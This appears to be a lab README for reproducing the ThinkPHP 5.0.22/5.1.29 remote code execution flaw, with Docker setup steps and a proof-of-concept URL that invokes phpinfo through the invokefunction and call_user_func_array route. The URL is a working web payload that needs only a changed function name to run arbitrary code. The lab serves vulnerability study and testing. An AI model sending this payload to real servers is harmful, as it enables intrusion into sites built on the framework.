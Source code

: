 # Thinkphp5 5.0.22/5.1.29 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

ThinkPHP is an extremely widely used PHP development framework. In its version 5, as processing controller name not correctly, it can execute any method if the website doesn't have mandatory routing enabled (which is default), resulting in a RCE vulnerability. 

Reference links：

- http://www.thinkphp.cn/topic/60400.html
- http://www.thinkphp.cn/topic/60390.html
- https://xz.aliyun.com/t/3570

## Environment Setup

Enter the following command：(ThinkPHP version:5.0.20)

```
docker-compose up -d
```

Visit `http://your-ip:8080` and you'll see the default page of ThinkPHP.

## POC

Directly visit `http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1` and it'll execute the phpinfo：

![](1.png)
